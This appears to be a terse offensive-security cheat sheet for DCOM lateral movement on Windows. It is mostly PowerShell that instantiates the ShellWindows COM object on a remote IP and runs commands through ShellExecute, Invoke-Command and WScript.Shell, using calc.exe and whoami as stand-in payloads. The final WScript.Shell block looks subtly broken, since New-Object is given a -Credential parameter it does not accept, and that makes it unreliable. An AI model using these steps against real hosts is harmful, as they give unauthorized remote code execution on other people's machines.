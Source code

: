 # Execute DCOM

__OLEVIEW__
```AppIds > ShellWindows
CLSID 	9BA05972-F6A8-11CF-A442-00A0C90A8F39```

Now that we have the CLSID, we can instantiate the object on a remote target:
```$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>") #9BA05972-F6A8-11CF-A442-00A0C90A8F39
$obj = [System.Activator]::CreateInstance($com)```

## create a remote instance of 'ShellWindows'
```$com = [Type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39", "127.0.0.1") 
$obj = [System.Activator]::CreateInstance($com)```

## interact with the object
```$item = $obj.Item()
$item```

## create a shellexecute command 
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)

Invoke-Command -ComputerName "xxxxx" -ScriptBlock { cmd.exe /c 'whoami' } -Credential $credential

## Specify the target computer
$targetComputer = "COMPUTERNAME"

## Use the computer account credentials for authentication
$credential = Get-Credential -UserName "$targetComputer\$($env:COMPUTERNAME)" -Message "Enter computer account credentials"


## Create a DCOM object
$dcom = New-Object -ComObject "WScript.Shell" -Credential $credential
$command = "cmd.exe /c whoami"
$dcom.Run($command, 1, $true)
